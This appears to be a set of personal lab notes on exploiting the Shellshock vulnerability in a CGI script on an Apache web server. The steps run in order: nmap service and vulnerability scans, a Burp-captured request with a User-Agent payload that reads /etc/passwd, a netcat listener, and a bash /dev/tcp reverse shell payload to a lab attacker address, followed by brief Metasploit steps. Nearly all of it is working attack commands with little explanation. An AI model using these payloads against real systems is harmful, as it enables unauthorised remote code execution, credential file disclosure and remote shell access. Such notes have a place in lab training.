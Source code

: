 #### Vulnerability analysis shellshock


#### Exploiting shellshocks
- nmap -sV 192.24.241.3 [confirm the apache server is running]
- visits the ip address in browser.
- look in source code look for cgi file
- nmap -sV 192.24.241.3 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" [we can confirm the vulnerability]
- capture the request in burp
- (){ :; }; echo; /bin/bash -c 'cat /etc/passwd' [ replace the user-agent with that command ]
- nc -nvlp 1234 [ start a listener in attacker machine ]
-  (){ :; }; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.24.241.2/1234 0>&1' [replace the user-agent with that shell for reverse shell]
- a reverse shell got

#### metasploit
- service postgresql start
- msfconsole
- search shellshock 
- use exploit module 
- set everything required

